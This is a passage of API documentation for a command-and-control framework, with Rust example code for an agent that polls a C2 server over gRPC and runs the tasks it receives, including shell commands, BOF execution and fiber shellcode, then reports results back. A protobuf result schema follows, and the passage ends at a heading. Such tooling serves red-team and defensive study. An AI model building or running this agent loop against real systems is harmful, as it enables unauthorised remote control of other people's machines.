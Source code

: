 **Example Usage:**
```rust
// Request tasks from server
let task_request = TaskRequest {
    agent_id: agent_id.clone(),
    max_tasks: 5, // Request up to 5 tasks
};

let tasks = grpc_client.get_tasks(task_request).await?;
for task in tasks {
    println!("Received task: {} ({})", task.task_id, task.command);
    
    // Execute task based on type
    let result = match task.task_type() {
        TaskType::ShellCommand => execute_shell_command(&task).await?,
        TaskType::BofExecution => execute_bof_task(&task).await?,
        TaskType::FiberShellcode => execute_fiber_task(&task).await?,
        _ => execute_generic_task(&task).await?,
    };
    
    // Submit result back to server
    submit_task_result(task.task_id, result).await?;
}
```

### SubmitTaskResult

Submits task execution results to the C2 server.

**Request:**
```protobuf
message TaskResult {
  string task_id = 1;                    // Task identifier
  string agent_id = 2;                   // Agent identifier
  TaskExecutionStatus status = 3;        // Execution status
  string output = 4;                     // Command output
  string error_message = 5;              // Error message if failed
  google.protobuf.Timestamp start_time = 6;      // Execution start time
  google.protobuf.Timestamp end_time = 7;        // Execution end time
  uint64 execution_duration_ms = 8;      // Duration in milliseconds
  int32 exit_code = 9;                   // Exit code
  repeated TaskArtifact artifacts = 10;   // Additional artifacts
}
```

**Response:**
```protobuf
message TaskResultResponse {
  bool success = 1;       // Result submission status
  string message = 2;     // Status message
}
```

## Advanced Execution
